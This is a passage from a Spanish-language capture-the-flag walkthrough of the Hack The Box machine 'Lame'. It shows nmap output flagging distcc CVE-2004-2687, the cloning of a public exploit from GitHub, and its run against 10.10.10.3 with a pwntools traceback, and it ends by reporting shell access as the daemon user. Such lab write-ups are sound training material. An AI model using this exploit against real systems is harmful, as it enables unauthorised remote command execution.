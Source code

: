 ```bash
  |                                                                                                               
  |     Disclosure date: 2002-02-01                                                                               
  |     Extra information:                                                                                        
  |                                                                                                               
  |     uid=1(daemon) gid=1(daemon) groups=1(daemon)                                                              
  |                                                                                                               
  |     References:                                                                                               
  |       https://nvd.nist.gov/vuln/detail/CVE-2004-2687                                                          
  |       https://distcc.github.io/security.html                                                                  
  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687                                            
```                                                                                                                  

Detectamos que el servicio es vulnerable al CVE-2004-2687, así que vamos a hacer uso del exploit [CVE-2004-2687](https://github.com/k4miyo/CVE-2004-2687) del repositorio de github de [k4miyo](https://github.com/k4miyo/).

```bash
cd ../exploit
❯ git clone https://github.com/k4miyo/CVE-2004-2687
  Clonando en 'CVE-2004-2687'...
  remote: Enumerating objects: 9, done.
  remote: Counting objects: 100% (9/9), done.
  remote: Compressing objects: 100% (7/7), done.
  remote: Total 9 (delta 0), reused 0 (delta 0), pack-reused 0
  Recibiendo objetos: 100% (9/9), listo.
❯ cd CVE-2004-2687/
[+] Payload: Payload generated!
[+] Execution: DistCC Daemon exploited with success!
[+] Opening connection to 10.10.10.3 on port 3632: Done
[q] Trying to bind to :: on port 4564: Trying ::
Traceback (most recent call last):
  File "/home/bast1ant1c/Desktop/bast1ant1c/HTB/lame/exploit/CVE-2004-2687/CVE-2004-2687.py", line 120, in <modu  le>
    shell = listen(lport, timeout=20).wait_for_connection()
  File "/home/bast1ant1c/.local/lib/python3.9/site-packages/pwnlib/tubes/listen.py", line 105, in __init__
    listen_sock.bind(self.sockaddr)
OSError: [Errno 98] Address already in use
[*] Closed connection to 10.10.10.3 port 3632
```
Generamos un listener por el puerto escogido y obtenemos acceso al sistema como usuario `deamon`
  